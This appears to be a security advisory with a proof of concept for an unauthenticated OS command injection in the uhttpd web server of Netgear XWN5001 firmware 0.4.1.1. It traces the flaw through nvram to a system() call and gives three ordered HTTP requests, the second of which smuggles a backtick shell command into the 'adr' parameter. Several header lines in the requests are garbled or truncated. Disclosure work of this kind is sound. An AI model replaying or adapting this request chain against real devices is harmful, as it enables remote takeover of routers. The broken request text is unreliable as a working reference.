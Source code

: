 # xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.


## description
The Netgear xwn5001-0.4.1.1 uhttpd binary contains a OS Command Injection vulnerability, allowing unauthenticated remote attackers to inject arbitrary OS commands and execute them on the server.
## detail
The vulnerability is located in the function cmd_macaddr_rm at address 0x412404 of the binary usr/sbin/uhttpd. The content of file /tmp/Aclmacaddr, which can be controled by user, is passed to function system and cause the issue.

Firstly, after sending package1, parameter select_edit is passed to wl_acl_editnum in nvram in function wlacl_editnum at 0x439740.
![wlacl_editnum](wlacl_editnum.png)

Secondly, after sending package2, parameter device and adr are passed to wlacl%d in nvram in function wlacl_editnum at 0x43988C.
![wlacl_edit](wlacl_edit.png)

Thirdly, after sending package3, parameter wlacl%d in nvram is passed to file /tmp/Aclmacaddr, and /tmp/Aclmacaddr is read and the content is passed to system in  function cmd_macaddr_rm at 0x412404, which cause arbitrary OS commands execution.
![cmd_macaddr_rm](cmd_macaddr_rm.png)

## Send package
Pakcges should be sent in order.
# package1
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

select_edit=123&submit_flag=wlacl_editnum
```

# package2
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 650

device=1111111&adr=`echo 123 >/poc`&plc_qos_port_select=10&hide2_policy=wzqwzqwzq&submit_flag=wlacl_edit
```

# package3
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

select_del=123&plc_qos_port_select=10&hide2_policy=wzqwzqwzq&submit_flag=wlacl_del
```

## Attack result
![attack result](attack_result.png)
